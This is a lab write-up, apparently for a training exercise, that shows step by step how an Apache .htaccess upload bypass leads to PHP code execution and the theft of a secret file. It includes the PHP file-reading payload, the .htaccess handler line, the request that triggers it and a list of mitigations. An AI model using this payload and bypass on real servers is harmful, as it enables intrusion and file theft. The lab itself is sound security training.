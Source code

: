 ````markdown
# 🛡️ File Upload Exploitation – Apache .htaccess Bypass

This project documents a successful file upload exploitation against a simulated vulnerable web application.  
The lab demonstrates how weak file upload validation can be bypassed to achieve **remote code execution (RCE)** using an `.htaccess` trick on an Apache server.

---

## 📑 Table of Contents
1. [Lab Overview](#lab-overview)  
2. [Exploitation Walkthrough](#exploitation-walkthrough)  
   - [Normal File Upload](#normal-file-upload)  
   - [Crafting Malicious Payload](#crafting-malicious-payload)  
   - [Identifying Server](#identifying-server)  
   - [Uploading .htaccess](#uploading-htaccess)  
   - [Uploading Exploit with New Extension](#uploading-exploit-with-new-extension)  
   - [Triggering RCE](#triggering-rce)  
3. [Security Impact](#security-impact)  
4. [Recommended Mitigations](#recommended-mitigations)  
5. [Proof of Exploit](#proof-of-exploit)  
6. [Secret Obtained](#secret-obtained)  
7. [Takeaways](#takeaways)  

---

## 📖 Lab Overview
- **Target:** Web application with avatar upload functionality  
- **Vulnerability:** File upload restrictions + Apache `.htaccess` misconfiguration  
- **Impact:** Remote Code Execution → Secret file disclosure  

---

## ⚙️ Exploitation Walkthrough

### 1. Normal File Upload
- Logged in and uploaded an image as the avatar.  
- Observed the image was fetched with:

```http
GET /files/avatars/<YOUR-IMAGE>
````

### 2. Crafting Malicious Payload

Created a PHP file `exploit.php` to read Carlos’s secret:

```php
<?php
echo file_get_contents('/home/carlos/secret');
?>
```

* Attempt to upload failed → `.php` extension not allowed.

### 3. Identifying Server

The response from `POST /my-account/avatar` revealed:

```http
Server: Apache/2.4.41 (Ubuntu)
```

* Apache + mod\_php hinted at an `.htaccess` bypass.

### 4. Uploading `.htaccess`

Modified the upload request in Burp Repeater:

```text
- Changed filename → .htaccess
- Content-Type → text/plain
- File contents:
AddType application/x-httpd-php .l33t
```

* Uploaded successfully ✅

### 5. Uploading Exploit with New Extension

Reused the upload request:

```text
- Changed filename → exploit.l33t
- File contents → PHP payload
```

* Uploaded successfully ✅

### 6. Triggering RCE

Requested:

```http
GET /files/avatars/exploit.l33t
```

* Server executed PHP → Secret was disclosed:

```
FxPam6dKbign7PBPqaNxPRZ76HsNCXr3
```

---

## 🚨 Security Impact

* **Severity:** 🔴 High
* **Risk:** Arbitrary PHP execution on the server
* **Impact:** Unauthorized file disclosure, possible full system compromise

---

## 🔒 Recommended Mitigations

* Disable `.htaccess` overrides:

```apache
AllowOverride None
```

* Store uploads outside web root
* Strict MIME-type & extension validation (both client + server)
* Sanitize uploaded content before saving

---

## ✅ Proof of Exploit

<img width="957" height="1079" alt="Proof of exploit in Burp Repeater" src="https://github.com/user-attachments/assets/f15c03db-3747-4761-9709-d0349b92cd41" />

---

## 🗝️ Secret Obtained

```
FxPam6dKbign7PBPqaNxPRZ76HsNCXr3
```

---

## 📚 Takeaways

This lab highlights how **misconfigured servers + weak upload validation** can escalate into RCE.
Preventing such attacks requires **defense-in-depth**: secure configs, strict validation, and isolating user uploads.

```

---
